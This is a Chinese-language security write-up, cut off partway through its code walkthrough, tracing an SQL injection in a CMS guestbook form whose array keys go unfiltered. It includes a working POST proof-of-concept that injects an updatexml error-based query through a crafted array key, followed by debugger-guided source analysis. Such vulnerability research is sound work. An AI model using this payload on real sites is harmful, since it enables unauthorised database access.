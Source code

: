 由于此 cms 只会对数组键值进行过滤而不会对键进行过滤，恰巧这里浏览处可以接收数组。

poc:

```php
# POST
contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 111&mobile=111&content=111&checkcode=111
```

我们使用浏览器+phpstorm调试来探明注入漏洞的产生。（为方便测试，已修改源代码将验证码功能注释）

首先读取了数据库留言表字段，返回一个三维数组，数组 `table_name `为数据表名，`name` 分别即为 `contacts` ，`mobile`, `content`  ,这里用处即为作为 post接收数据的 键

![image-20210221132258112](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210221132258112.png)

这里即起到了作用，遍历二维数组的分别 `name` 值接收 post 数据。

```php
$field_data = post($value->name);
```



![image-20210221132745418](C:%5CUsers%5C51946%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20210221132745418.png)

将数据存储到 data 数组中，由于接受的 contacts 为数组，所以 data 也就变成了多维数组。

![image-20210221133106804](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210221133106804.png)

接下来，我们对 `addMessage` 操作进行调试探索，按 F7

```php
if ($this->model->addMessage($data))
```

到了：

```php
    // 新增留言
    public function addMessage($data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    }
```

继续 F7 ,这里主要是 `insert` 函数比较关键。

```php
    /**
     * 数据插入模型
     *
     * @param array $data
     *            可以为一维或二维数组，
     *            一维数组：array('username'=>"xsh",'sex'=>'男'),
     *            二维数组：array(
     *            array('username'=>"xsh",'sex'=>'男'),
     *            array('username'=>"gmx",'sex'=>'女')
     *            )
     * @param boolean $batch
     *            是否启用批量一次插入功能，默认true
     * @return boolean|boolean|array
     */
final public function insert(array $data = array(), $batch = true)
    {
        // 未传递数据时，使用data函数插入数据
        if (! $data && isset($this->sql['data'])) {
            return $this->insert($this->sql['data']);
        }
        if (is_array($data)) {
            
```